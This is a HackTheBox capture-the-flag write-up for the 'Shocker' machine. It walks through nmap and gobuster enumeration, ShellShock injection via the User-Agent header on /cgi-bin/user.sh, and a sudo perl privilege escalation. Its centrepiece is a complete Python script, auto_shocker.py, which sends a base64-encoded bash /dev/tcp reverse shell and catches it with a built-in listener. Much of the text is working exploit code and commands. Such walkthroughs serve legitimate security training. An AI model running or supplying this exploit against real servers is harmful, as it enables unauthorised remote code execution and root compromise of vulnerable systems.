

Shocker was a really easy box from hackthebox. We have here the common vulnerability called ShellShock, when we can execute arbitrary code on the remote server using the User-Agent string.

The privilege escalation was with sudo in the perl binary.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.56
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore

```sh
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

We found a bunch of directories in it. Fine.


### /cgi-bin/

We found a interesting page called cgi-bin

Based on the name of the box, we could presume that this box is vulnerable to ShellShock

We run gobuster again on this page, with a litlle more extensions

```sh
gobuster dir -u http://10.10.10.56/cgi-bin/ -w list.txt -x php,html,sh,pl,py
```


We found an interesting file, called `user.sh`

If we try to open it on the browser, it's callable to download


If we look at BurpSuite, we see that the optput of the file is the `uptime` command


And we see that the `Content-Type: text/x-sh` so the browser does not know what to do with this kind of file!

## ShellShock

Once we already know that this is probably vulnerable to shellshock, we could try to exploit it, manually. This vulnerability allow an attacker to execute commands in places where it should only be doing something safe like defining an environment variable

We can see the detailed explanation of this vulnerabilty on [this](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-shocker/) website.


Because the UA string is a common target, we could try adding the POC there:

```
env x='() { :;}; echo vulnerable' bash -c "echo test"
```

And here we see that we can execute commands in it

```sh
User-Agent: () { :;}; echo; /bin/echo test
```


We can found that it's vulnerable to shellshock with nmap also

```sh
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```


Now we can procced to get a reverse shell in it


And in an easier way


Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_shocker.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Shocker - ShellShock - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Base64 encode things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Get the reverse shell
def GetReverseShell(rhost,lhost,lport):
    print("[+] Let's get the reverse shell !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload_read = str(b64e(payload))
    url = "http://%s:80/cgi-bin/user.sh" %rhost
    headers = {"User-Agent": "() { :;}; echo; /bin/echo %s | /usr/bin/base64 -d | /bin/bash" %payload_read}
    r.get(url, headers=headers, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox ShellShock AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)
    
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the reverse shell
    GetReverseShell(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

Ok, now let's get root.

# Shelly -> Root

With the command `sudo -l` we see that we can execute `perl` as root


So, with the help of [GTFobin](https://gtfobins.github.io/gtfobins/perl/) we become root

```sh
sudo perl -e 'exec "/bin/sh";'
```

